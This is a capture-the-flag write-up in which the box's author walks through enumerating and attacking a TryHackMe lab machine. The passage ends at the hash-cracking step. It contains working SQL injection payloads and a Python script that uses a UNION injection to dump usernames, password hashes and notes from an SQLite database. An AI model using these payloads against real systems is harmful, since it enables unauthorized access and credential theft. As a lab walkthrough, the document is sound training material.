## Solve for Hogwartz-Castle Box from TryHackMe



## Introduction

This is a writeup for the TryHackMe box that I built called *Madeye's Castle*, hope you enjoyed it.

<!--more-->

### Prompt

For this box we are given the following:

> Find a foothold into the castle and search around for some interesting files.

Deploying the VM we get an IP address assigned


### Enumerating the Services

Running `nmap` for all ports (`-p-`) on this target give us 4 open ports.

```
$ nmap -p- -T4 10.10.238.162
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-17 12:58 EST
Nmap scan report for 10.10.238.162
Host is up (0.0011s latency).
Not shown: 65531 filtered ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 88.94 seconds
```

Running default scripts and enumerate versions on those open ports, give us the following:

```
$ nmap -sC -sV -p22,80,139,445 10.10.238.162
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-17 13:02 EST
Nmap scan report for 10.10.238.162
Host is up (0.0011s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: Amazingly It works
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 1s
|_nbstat: NetBIOS name: TARGET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-11-17T18:03:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.75 seconds
```

So we have a Ubuntu Linux host running OpenSSH, Apache 2.4.41, and smbd 4.6.2. All appear to be current versions. The http title seems special.


### Samba Server - TCP Port 445

Access the samba server on port 445, we see there is one intersting share.

```
$ smbclient -L //10.10.238.162
Enter WORKGROUP\kali's password:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Harry's Important Files
	IPC$            IPC       IPC Service (hogwartz-castle server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

It appears the share called, "sambashare" is for a user name Harry. In this share are two files.

```
$ smbclient //10.10.238.162/sambashare/
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Nov 17 12:54:26 2020
  ..                                  D        0  Tue Nov 17 12:54:26 2020
  .notes.txt                          H      158  Tue Nov 17 12:54:26 2020
  spellnames.txt                      N      874  Tue Nov 17 12:54:26 2020

		64284292 blocks of size 1024. 58519652 blocks available
smb: \> get spellnames.txt
getting file \spellnames.txt of size 874 as spellnames.txt (213.4 KiloBytes/sec) (average 213.4 KiloBytes/sec)
smb: \> get .notes.txt
getting file \.notes.txt of size 148 as .notes.txt (72.3 KiloBytes/sec) (average 166.3 KiloBytes/sec)

```

The file `spellnames.txt` contains 81 lines with one word each. They appear to be a list of spells from Harry Potter universe.

```
avadakedavra
crucio
imperio
morsmordre
brackiumemendo
confringo
sectumsempra
-- snip -- 
```

This might be useful in the future.

The file `.notes.txt` contains a few maybe hints or other points to consider

```
Hagrid told me that spells names are good since they will not "rock you"
Hermonine loves historical text editors along with reading old books.
```

Since the share comments describe these as Harry's important files, we can assume this are notes from Harry Potter potentially. Hagrid and Hermonine are his friends.

The note about spell names is interesting since we got a list of spell names also and the mention of rock you potentially refers to password lists and the fact that the spells are not in `rockyou.txt`.

### Web Server - TCP Port 80

Using `nikto` to scan the website finds nothing interesting.

```
$ nikto -h  "http://10.10.238.162"
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.238.162
+ Target Hostname:    10.10.238.162
+ Target Port:        80
+ Start Time:         2020-11-17 13:09:53 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2ad5, size: 5b4512f825e4f, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD
+ 7915 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2020-11-17 13:10:13 (GMT-5) (20 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

But when doing a directory search with  `gobuster` we find an interesting folder.

```
$ gobuster dir -u http://10.10.238.162 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.162
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/17 13:37:08 Starting gobuster
===============================================================
/server-status (Status: 403)
/backup (Status: 301)
===============================================================
2020/11/17 13:37:48 Finished
===============================================================

```
We can not browse to that folder, but we can look a little deeper and see another file.

```
$ gobuster dir -u http://10.10.238.162/backup -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.162/backup
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/17 13:37:21 Starting gobuster
===============================================================
/email (Status: 200)
Progress: 7894 / 220561 (3.58%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/24 13:37:25 Finished
===============================================================
```

Grabbing this email file, we see a conversation about virtual hosting and registering a domain.

```
$ wget http://10.10.238.162/backup/email
--2020-11-17 09:41:09--  http://10.10.238.162/backup/email
Connecting to 10.10.238.162:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1527 (1.5K)
Saving to: ‘email’

email                 100%[=========================>]   1.49K  --.-KB/s    in 0s

2020-11-17 09:41:09 (163 MB/s) - ‘email’ saved [1527/1527]

$ cat email
Madeye,

It is done. I registered the name you requested below but changed the "s" to a "z". You should be good to go.

RME

--------
On Tue, Nov 3, 2020 at 8:54 AM Madeye Moody <ctf@madeye.ninja> wrote:
Mr. Roar M. Echo,

Sounds great! Thanks, your mentorship is exactly what we need to avoid legal troubles with the Ministry of Magic.

Magically Yours,
madeye

--------
On Tue, Nov 3, 2020 at 8:53 AM Roar May Echo <info@roarmayecho.com> wrote:
Madeye,

I don't think we can do "hogwarts" due to copyright issues, but let’s go with "hogwartz", how does that sound?

Roar

--------
On Tue, Nov 3, 2020 at 8:52 AM Madeye Moody <ctf@madeye.ninja> wrote:
Dear Mr. Echo,

Thanks so much for helping me develop my castle for TryHackMe. I think it would be great to register the domain name of "hogwarts-castle.thm" for the box. I have been reading about virtual hosting in Apache and it's a great way to host multiple domains on the same server. The docs says that...

> The term Virtual Host refers to the practice of running more than one web site (such as
> company1.example.com and company2.example.com) on a single machine. Virtual hosts can be
> "IP-based", meaning that you have a different IP address for every web site, or "name-based",
> meaning that you have multiple names running on each IP address. The fact that they are
> running on the same physical server is not apparent to the end user.

You can read more here: https://httpd.apache.org/docs/2.4/vhosts/index.html

What do you think?

Thanks,
madeye
```

Now let's look at in the browser



Browsing to the website, we see what appears to be a default apache site with a few differences. A logo that says "RME", a title that includes the work "amazingly", and the mention of "comments" in the banner under the title. Let's look at the comments.



There is another mention of virtual hosting and the domain name "hogwartz-castle.thm" Let's add that to our host file and see what we get.

```
$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali.''	kali

10.10.238.162	    hogwartz-castle.thm

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```


Now. When we go to the webserver, you see a welcome screen with a login portal



#### Discovery SQL Injection


Attempting well-known username-passwords of `admin:admin`, `admin:password`, etc gains no results.

Trying a simple SQLi check of `' or 1=1 -- ` give the following message:

```json
{"error":"The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging"}
```
So it appears "Lucas Washington" is a user. Potentially this sorted, so lets reverse the sort and see what else we get.

We will use the username of `' or 1=1 order by 1 desc -- `. This give us the following error message.

```json
{"error":"The password for Zoey Gonzales is incorrect! contact administrator. Congrats on SQL injection... keep digging"}
``` 

So a different username but the same message about SQLi. Lets figure out how many columns there are using `ORDER BY` and figure out if we can dump the database with a `UNION` attack. We can do this in python really quick using `requests`

```python
$ python3                                                                                 Python 3.8.5 (default, Aug  2 2020, 15:09:07) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> url = "http://hogwartz-castle.thm/login"
>>> data = {}
>>> data['password']='whatevs'
>>> data['user'] = "' or 1=1 order by 1 -- "
>>> r = requests.post(url,data=data)
>>> r.status_code
403
>>> data['user'] = "' or 1=1 order by 2 -- "
>>> r = requests.post(url,data=data)
>>> r.status_code
403
>>> data['user'] = "' or 1=1 order by 3 -- "
>>> r = requests.post(url,data=data)
>>> r.status_code
403
>>> data['user'] = "' or 1=1 order by 4 -- "
>>> r = requests.post(url,data=data)
>>> r.status_code
403
>>> data['user'] = "' or 1=1 order by 5 -- "
>>> r = requests.post(url,data=data)
>>> r.status_code
500
```

When we try to sort by the fifth column, we get a `500` status code, where the others gave us a `403`. This means our output is 4 columns.

A four column `UNION` attack of `' union select 1,2,3,4 -- ` gives us the following output

```python
>>> data['user'] = "' union select 1,2,3,4 -- "
>>> r = requests.post(url,data=data)
>>> r.text
'{"error":"The password for 1 is incorrect! 4"}\n'
```
So column 1 is where the username (with a space) goes and column 4 is some type of message. The messages we have seen have said been the congratulations asking to contact admin and keep digging.

We will now figure out what type of database we have.

```python
>>> data['user'] = "' union select table_name,2,3,4 from information_schema.tables -- "
>>> r = requests.post(url,data=data)
>>> r.text
'<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">\n<title>500 Internal Server Error</title>\n<h1>Internal Server Error</h1>\n<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>\n'
```
We get an error trying to access the `information_schema` table, so it looks unlikely we have MySQL.

```python
>>> data['user'] = "' union select tbl_name,2,3,4 from sqlite_master -- "
>>> r = requests.post(url,data=data)
>>> r.text
'{"error":"The password for users is incorrect! 4"}\n'
```

We get a hit on SQLite, and a table name of *users*.

Lets get the SQL command used to build the `users` table.

```python
>>> data['user'] = "' union select 1,2,3,sql from sqlite_master -- "
>>> r = requests.post(url,data=data)
>>> r.text
'{"error":"The password for 1 is incorrect! CREATE TABLE users(\\nname text not null,\\npassword text not null,\\nadmin int not null,\\nnotes text not null)"}\n'
```
So it appears we have a `name`, `password`,`admin`, and `notes` field. Lets see what is in the admin column.

```python
>>> data['user'] = "' union select name,2,3,admin from users -- "
>>> r = requests.post(url,data=data)
>>> r.text
'{"error":"The password for Adrian Carter is incorrect! 0"}\n'
```

Ok, let's see if anyone has admin set to `1` or `'1'`...

```python
>>> data['user'] = "' union select name,2,3,admin from users where admin=1 -- "
>>> r = requests.post(url,data=data)
>>> r.status_code
200
>>> data['user'] = "' union select name,2,3,admin from users where admin='1' -- "
>>> r = requests.post(url,data=data)
>>> r.status_code
200
```

A status code of 200 means we did not get a hit in the database.

Now lets dump the usernames and passwords with the following script.

```python
#!/usr/bin/env python3

import requests
import re
import json

url = "http://hogwartz-castle.thm/"
patt = re.compile('(.* .*:.*:.*)',re.DOTALL)


concat = "(name || ':' || password || ':' || notes)"
data = {}
data['password'] = 'whateves'
i = 0

while True:
    payload = f"' union select 1,2,3,{concat} from users limit 1 offset {i} -- "
    data['user'] = payload
    r = requests.post(url + '/login', data=data)
    if r.status_code == 200:
        break
    m = json.loads(r.text)['error'].split('!')[1].strip()
    message = patt.findall(m)[0]
    name, password, notes = message.split(':')
    print("{:20} | {:50}".format(name, password))
    print("{:20} | {}".format('',notes))
    i += 1
```


```
Aaliyah Allen        | c063c5215b56091327a1f25e38e2d0a5e6db83cceb0ab29cbb0bedd686c18ee5770bfbbfa0a4ac542c8935b0fb63e30ea0bc0408d3523157d840fdfa54ec8dab
                     |  contact administrator. Congrats on SQL injection... keep digging
Aaliyah Sanders      | dc2a6b9462945b76f333e075be0bc2a9c87407a3577f43ba347043775a0f4b5c1a78026b420a1bf7da84f275606679e17ddc26bceae25dad65ac79645d2573c0
                     |  contact administrator. Congrats on SQL injection... keep digging
Aaliyah Williams     | 9dc90274aef30d1c017a6dc1d5e3c07c8dd6ae964bcfb95cadc0e75ca5927faa4d72eb01836b613916aea2165430fc7592b5abb19b0d0b2476f7082bfa6fb760
                     |  contact administrator. Congrats on SQL injection... keep digging
Abigail Morgan       | afcaf504e02b57f9b904d93ee9c1d2e563d109e1479409d96aa064e8fa1b8ef11c92bae56ddb54972e918e04c942bb3474222f041f80b189aa0efd22f372e802
                     |  contact administrator. Congrats on SQL injection... keep digging
Adam Jenkins         | 2317e58537e9001429caf47366532d63e4e37ecd363392a80e187771929e302922c4f9d369eda97ab7e798527f7626032c3f0c3fd19e0070168ac2a82c953f7b
                     | contact administrator. Congrats on SQL injection... keep digging
Andrea Phillips      | e1ed732e4aa925f0bf125ae8ed17dd2d5a1487f9ff97df63523aa481072b0b5ab7e85713c07e37d9f0c6f8b1840390fc713a4350943e7409a8541f15466d8b54
                     |  contact administrator. Congrats on SQL injection... keep digging
Blake Washington     | 4c968fc8f5b72fd21b50680dcddea130862c8a43721d8d605723778b836bcbbc0672d20a22874af855e113cba8878672b7e6d4fc8bf9e11bc59d5dd73eb9d10e
                     | contact administrator. Congrats on SQL injection... keep digging
Brody Stewart        | 36e2de7756026a8fc9989ac7b23cc6f3996595598c9696cca772f31a065830511ac3699bdfa1355419e07fd7889a32bf5cf72d6b73c571aac60a6287d0ab8c36
                     | contact administrator. Congrats on SQL injection... keep digging
Carlos Barnes        | 7f67af71e8cbb7188dd187b7da2386cc800ab8b863c9d0b2dce87c98a91b5511330a2ad4f7d73592b50a2a26c26970cfbd22f915d1967cd92569dbf5e24ac77e
                     | contact administrator. Congrats on SQL injection... keep digging
Carlos Lopez         | 8c8702dbb6de9829bcd6da8a47ab26308e9db7cb274b354e242a9811390462a51345f5101d7f081d36eea4ec199470162775c32cb1f4a96351dc385711619671
                     | contact administrator. Congrats on SQL injection... keep digging
Claire Miller        | d4d5f4384c9034cd2c77a6bee5b17a732f028b2a4c00344c220fc0022a1efc0195018ca054772246a8d505617d2e5ed141401a1f32b804d15389b62496b60f24
                     |  contact administrator. Congrats on SQL injection... keep digging
Diego Baker          | 87ac9f90f01b4b2ae775a7cb96a8a04d7ab7530282fd76224ee03eecab9114275540e4b6a2c52e890cf11f62aacb965be0c53c48c0e51bf731d046c5c3182aad
                     | contact administrator. Congrats on SQL injection... keep digging
Elizabeth Cook       | af9f594822f37da8ed0de005b940158a0837060d3300be014fe4a12420a09d5ff98883d8502a2aaffd64b05c7b5a39cdeb5c57e3005c3d7e9cadb8bb3ad39ddb
                     |  contact administrator. Congrats on SQL injection... keep digging
Ella Garcia          | ac67187c4d7e887cbaccc625209a8f7423cb4ad938ec8f50c0aa5002e02507c03930f02fab7fab971fb3f659a03cd224669b0e1d5b5a9098b2def90082dfdbd2
                     |  contact administrator. Congrats on SQL injection... keep digging
Gianna Harris        | 01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0
                     |  contact administrator. Congrats on SQL injection... keep digging
Grace Brooks         | 9a311251255c890692dc84b7d7d66a1eefc5b89804cb74d16ff486927014d97502b2f790fbd7966d19e4fbb03b5eb7565afc9417992fc0c242870ea2fd863d6d
                     |  contact administrator. Congrats on SQL injection... keep digging
Harry Turner         | b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
                     | My linux username is my first name, and password uses best64
Jasmine King         | 487daab566431e86172ed68f0836f3221592f91c94059a725d2fdca145f97e6258593929c37d0339ca68614a52f4df61953b930585c4968cedaaa836744c52a6
                     |  contact administrator. Congrats on SQL injection... keep digging
Jonathan Long        | 44b1fbcbcd576b8fd69bf2118a0c2b82ccf8a6a9ef2ae56e8978e6178e55b61d491f6fc152d07f97ca88c6b7532f25b8cd46279e8a2c915550d9176f19245798
                     | contact administrator. Congrats on SQL injection... keep digging
Jordan White         | 5ed63206a19b036f32851def04e90b8df081071aa8ca9fb35ef71e4daf5e6c6eab3b3fea1b6e50a45a46a7aee86e4327f73a00f48deb8ae2bf752f051563cc8b
                     | contact administrator. Congrats on SQL injection... keep digging
Joseph Rivera        | 6487592ed88c043e36f6ace6c8b6c59c13e0004f9751b0c3fdf796b1965c48607ac3cc4256cc0708e77eca8e2df35b668f5844200334300a17826c033b03fe29
                     | contact administrator. Congrats on SQL injection... keep digging
Joshua Reed          | e49608634f7de91d19e5e1b906e10c5a4a855a4fe32521f310727c9875e823c82b3e0347b32ef49ea44657e60e771d9e326d40ab60ce3a950145f1a7a79d3124
                     | contact administrator. Congrats on SQL injection... keep digging
Julian Robinson      | a1f6e38be4bf9fd307efe4fe05522b8c3a9e37fc2c2930507e48cb5582d81f73814ffb543cef77b4b24a18e70e2670668d1a5b6e0b4cb34af9706890bd06bbc9
                     | contact administrator. Congrats on SQL injection... keep digging
Kennedy Anderson     | e3c663d68c647e37c7170a45214caab9ca9a7d77b1a524c3b85cdaeaa68b2b5e740357de2508142bc915d7a16b97012925c221950fb671dd513848e33c33d22e
                     |  contact administrator. Congrats on SQL injection... keep digging
Kimberly Murphy      | 8f45b6396c0d993a8edc2c71c004a91404adc8e226d0ccf600bf2c78d33ca60ef5439ccbb9178da5f9f0cfd66f8404e7ccacbf9bdf32db5dae5dde2933ca60e6
                     |  contact administrator. Congrats on SQL injection... keep digging
Landon Alexander     | 79d9a8bef57568364cc6b4743f8c017c2dfd8fd6d450d9045ad640ab9815f18a69a4d2418a7998b4208d509d8e8e728c654c429095c16583cbf8660b02689905
                     | contact administrator. Congrats on SQL injection... keep digging
Liam Hernandez       | 5628255048e956c9659ed4577ad15b4be4177ce9146e2a51bd6e1983ac3d5c0e451a0372407c1c7f70402c3357fc9509c24f44206987b1a31d43124f09641a8d
                     | contact administrator. Congrats on SQL injection... keep digging
Liam Ward            | 88344d6b7724bc0e6e3247d4912fa755a5a91c2276e08610462f6ea005d16fd5e305dfe566e7f1dd1a98afe1abfa38df3d9697cdc47ecbb26ac4d21349d09ba7
                     | contact administrator. Congrats on SQL injection... keep digging
Lucas Washington     | c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492
                     | contact administrator. Congrats on SQL injection... keep digging
Madelyn Morgan       | d17604dbb5c92b99fe38648bbe4e0a0780f2f4155d58e7d6eddd38d6eceb62ae81e5e31a0a2105de30ba5504ea9c75175a79ed23cd18abcef0c8317ba693b953
                     |  contact administrator. Congrats on SQL injection... keep digging
Maya Sanders         | 7eea93d53fbed3ba8f2fa3d25c5f16fe5eaff1f5371918e0845d2076a2e952a457390ad87d289bf25f9457032f14bb07dcd625d03f2f5ee5c887c09dc7107a66
                     |  contact administrator. Congrats on SQL injection... keep digging
Oliver Gonzalez      | c809b40b7c3c0f095390f3cd96bb13864b7e8fd1670c6b1c05b1e26151be62782b97391b120cb4a8ee1d0c9b8fffaf12b44c9d084ae6041468ad5f12ec3d7a4e
                     | contact administrator. Congrats on SQL injection... keep digging
Olivia Murphy        | 6535ee9d2b8d6f2438cf92da5a00724bd2539922c83ca19befedbe57859ceafd6d7b9db83bd83c26a1e070725f6f336e21cb40295ee07d87357c34b6774dd918
                     |  contact administrator. Congrats on SQL injection... keep digging
Olivia Ross          | 93b4f8ce01b44dd25c134d0517a496595b0b081cef6eb625e7eb6662cb12dd69c6437af2ed3a5972be8b05cc14a16f46b5d11f9e27e6550911ed3d0fe656e04d
                     |  contact administrator. Congrats on SQL injection... keep digging
Parker Cox           | 53e7ea6c54bea76f1d905889fbc732d04fa5d7650497d5a27acc7f754e69768078c246a160a3a16c795ab71d4b565cde8fdfbe034a400841c7d6a37bdf1dab0d
                     | contact administrator. Congrats on SQL injection... keep digging
Samuel Anderson      | a86fa315ce8ed4d8295bf6d0139f23ba80e918a54a132e214c92c76768f27ce002253834190412e33c9af4ea76befa066d5bdeb47363f228c509b812dc5d81df
                     | contact administrator. Congrats on SQL injection... keep digging
Savannah Torres      | 11f9cd36ed06f0c166ec34ab06ab47f570a4ec3f69af98a3bb145589e4a221d11a09c785d8d3947490ae4cd6f5b5dc4eb730e4faeca2e1cf9990e35d4b136490
                     |  contact administrator. Congrats on SQL injection... keep digging
Sophie Sanchez       | 68b519187b9e2552d555cb3e9183711b939f94dfe2f71bda0172ee8402acf074cc0f000611d68d2b8e9502fa7235c8a25d72da50916ad0689e00cb4f47283e9b
                     |  contact administrator. Congrats on SQL injection... keep digging
Sydney Wright        | d3ccca898369a3f4cf73cbfc8daeeb08346edf688dc9b7b859e435fe36021a6845a75e4eddc7a932e38332f66524bd7876c0c613f620b2030ed2f89965823744
                     |  contact administrator. Congrats on SQL injection... keep digging
Zoey Gonzales        | 134d4410417fb1fc4bcd49abf4133b6de691de1ef0a4cdc3895581c6ad19a93737cd63cb8d177db90bd3c16e41ca04c85d778841e1206193edfebd4d6f028cdb
                     |  contact administrator. Congrats on SQL injection... keep digging
```

From this, we can see there are 40 users and one user has a different entry in the `notes` column.

```
Harry Turner         | b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
                     | My linux username is my first name, and password uses best64
```

This is promising, since we saw mention of a "Harry" in the samba server. Though its not Harry Potter, maybe its a pseduonym (or a CTF trick so you cannot guess the user name). Also the note mentions "best64" which is a set of rules in hashcat that can be applied to a wordlist to mangle them. Also, the username appears to just be `harry`

### Crack the hash

Looking at the hash length, we can attempt to determine the hashing algorithm used.

```bash
